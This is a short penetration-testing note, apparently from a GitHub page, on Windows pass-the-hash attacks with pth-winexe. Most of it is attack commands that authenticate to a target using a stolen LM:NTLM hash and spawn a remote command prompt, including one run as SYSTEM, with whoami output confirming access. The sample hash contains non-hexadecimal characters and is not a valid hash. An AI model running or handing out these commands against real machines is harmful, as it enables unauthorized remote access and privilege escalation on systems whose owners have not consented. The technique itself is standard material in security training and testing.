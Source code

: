 - - -
Windows accepts **hashes** instead of passwords to authenticate to a number of services.

we can use a modified version of winexe, pth-winexe to spawn a command prompt using the admin user's hash.

> [! Note ] 
>  For this attack you need to have the user's hash as you want to log-in.

example hash : Administrator:500:asd87a48qfj32ra8753vvkjagqg4gg733ff7:cgegf89fqgfb3fg832gr8bfbof3bf00:::

```sh
pth-winexe -U 'userX%asd87a48qfj32ra8753vvkjagqg4gg733ff7:cgegf89fqgfb3fg832gr8bfbof3bf00' //target-ip cmd.exe
```

> [! Note ] 
> In the above command we have include the entire hash LM:NTLM both.

```cmd
# whoami
UserX
```


```sh
pth-winexe --system -U 'userX%asd87a48qfj32ra8753vvkjagqg4gg733ff7:cgegf89fqgfb3fg832gr8bfbof3bf00' //target-ip cmd.exe
```

```
# whoami
nt authority/system
```


- - -

